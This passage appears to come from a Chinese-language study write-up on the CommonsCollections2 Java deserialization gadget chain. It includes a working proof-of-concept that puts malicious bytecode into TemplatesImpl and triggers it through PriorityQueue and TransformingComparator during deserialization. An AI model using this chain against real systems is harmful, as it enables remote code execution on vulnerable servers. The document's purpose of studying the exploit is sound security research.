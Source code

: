 

> 对于：>>>
>
>  无符号右移，忽略符号位，空位都以0补齐
>
> value >>> num   --  num 指定要移位值value 移动的位数。



需要它无符号右移一位再减去1仍然大于等于0，所以`size`至少得是2才行。

![image-20210828000437570]([Java反序列化]CommonsCollections2利用链学习.assets/image-20210828000437570.png)



## 利用TemplatesImpl

算是一种改进了，利用`TemplatesImpl`可以不用到数组。具体的思路就是用到之前分析的`newTransformer`。POC如下：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");

        Transformer transformer = new InvokerTransformer("toString",null,null);

        TransformingComparator transformingComparator = new TransformingComparator(transformer);

        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(templates);

        SerializeUtil.setFieldValue(transformer,"iMethodName","newTransformer");

        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);
```

这里也用到了简化数组的方式，注意到我们没有随便给值，而是都给了构造好的`TemplatesImpl`对象：

```java
        priorityQueue.add(templates);
        priorityQueue.add(templates);
```

原因还是在：

```java
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
```

直接把值给传了进去，免去了一次`ConstantTransformer`。
